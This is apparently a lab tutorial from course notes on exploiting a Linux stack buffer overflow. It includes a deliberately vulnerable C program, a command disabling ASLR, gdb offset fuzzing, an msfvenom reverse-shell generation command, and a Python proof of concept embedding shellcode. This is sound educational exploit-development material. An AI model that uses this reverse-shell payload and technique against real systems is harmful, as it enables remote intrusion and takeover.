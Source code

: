 # Linux Buffer Overflow Foundation
## 1. What is Buffer Overflow
Exploiting the behavior of a buffer overflow is a well-known security exploit. On many systems, the memory layout of a program, or the system as a whole, is well defined. By sending in data designed to cause a buffer overflow, it is possible to write into areas known to hold executable code and replace it with malicious code, or to selectively overwrite data pertaining to the program's state, therefore causing behavior that was not intended by the original programmer. Buffers are widespread in operating system (OS) code, so it is possible to make attacks that perform privilege escalation and gain unlimited access to the computer's resources. The famed Morris worm in 1988 used this as one of its attack techniques. 
![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/bo_imagination.png)
## 2. Overflowing Program on Linux
### 2.1 Setting up environment
First up, we need to turn off Address Space Layout Randomization (ASLR):
```bash
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Program source code:
```c
#include<stdio.h>
#include<unistd.h>

int overflow(){
  char buffer[500];
  int userinput;
  userinput = read(0, buffer, 700);
  printf("\nUser provided %d bytes. Buffer content: %s", userinput, buffer);
  return 0;
}

int main(int argc, char*argv[]){
  overflow();
  return 0;
}
```

In here, we will use complier `gcc` to compile to code
```sh
$ gcc oversize_overflow.c  -fno-stack-protector -z execstack -o oversize_overflow
```


### 2.2 Overriding EIP
First up, we know the buffer size around 500 bytes or more, let's check how long it will crash and override the `EIP`, so let's try to fuzz the program to crash

Let's make 500 bytes of `A` and send to program to see if it crash
```bash
$ python3 -c "print('A'*500)" | ./oversize_overflow
```

![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/image1.png)

As we can see, the program works good, so let's try with bigger size:
```bash
$ python3 -c "print('A'*700)" | ./oversize_overflow
```

![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/image2.png)

At this time, the program crashed with 700 bytes size. Now on, using the gdb debugger to determine and get exact offset and override the `EIP`:
```bash
$ gdb -q oversize_overflow
```
In my gdb debugger, I've already installed [peda](https://github.com/longld/peda) , so there are many tool you might not see or you can use another tool likewise is ok.
- Creating fuzz buffer to get exact stack size:
```sh
gdb-peda$ pattern create 700 1.txt
Writing pattern of 700 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/image3.png)

Here is the reuslt, and we can see the `EIP` (`0x4e734138`) point to invalid address, so the program crashed. Now, we are going to get exact size:
```sh
gdb-peda$ pattern offset 0x4e734138
1316176184 found at offset: 516
```
Get back to terminal, create the basic exploit to see if it overrided:
```sh
$ python -c "print('A'*516+'B'*4+'C*100')" > input.txt
```
Run the input file in gdb debugger, we can see the `EIP` overrided with 0x42424242 (meant BBBB). We are completely done with overriding the `EIP`.

![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/image4.png)
### 2.3 Execute the Shellcode
#### 2.3.1 Shellcode generation
To generate the shellcode, in this section we will use msfvernom to genterate it
```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.1.9 lport=4444 -b "\x00" -f python -o payload.py --platform linux -a x86
```
- Options description:
```sh
-p: Which mean payload
-b: bad characters caused crash
-f: file type
-o: output
-a: architecture
--platform: platform for the payload
lhost: listening host
lport: listening port
```
![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/image5.png)

#### 2.3.2 Finding the returning address to execute the shellcode
We got the shellcode, now we need to find the address to override the `EIP` and point it to the shellcode to make it execute. To do this, we will make `A` buffer and open the `gdb`.
```bash
$ python -c "print('A'*700)" > input.txt

gdb-peda$ r < input.txt
```
![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/image6.png)

In the picture, we can see the buffer start in `0xffffd030 + 0x8`, so `0xffffd038` will be our return address
#### 2.3.3 Proof of Concept (PoC)
We will edit the `payload.py` which we've already created above:
```python
#!/usr/bin/python3
import struct

buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\x5d\x29\xc9\xbe\x4d\x2c\x0e"
buf += b"\xe0\xb1\x12\x83\xed\xfc\x31\x75\x13\x03\x38\x3f\xec"
buf += b"\x15\xf3\xe4\x07\x36\xa0\x59\xbb\xd3\x44\xd7\xda\x94"
buf += b"\x2e\x2a\x9c\x46\xf7\x04\xa2\xa5\x87\x2c\xa4\xcc\xef"
buf += b"\x6e\xfe\x2e\xe6\x06\xfd\x30\xe9\x8a\x88\xd0\xb9\x55"
buf += b"\xdb\x43\xea\x2a\xd8\xea\xed\x80\x5f\xbe\x85\x74\x4f"
buf += b"\x4c\x3d\xe1\xa0\x9d\xdf\x98\x37\x02\x4d\x08\xc1\x24"
buf += b"\xc1\xa5\x1c\x26"

with open('input.txt', 'wb') as file:
    offset = 516
    nop = b'\x90'*16
    junk = b'A'
    ret_add = struct.pack('<L', 0xffffd038)
    payload = nop + buf + junk * (offset - 16 -len(buf)) + ret_add
    file.write(payload)
```
After run we have text file `input.txt`
![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/image7.png)
Finally, we got the result, shellcode is connected
![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/image8.png)
![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/image9.png)

------------------------------------------------------- Done -------------------------------------------------------
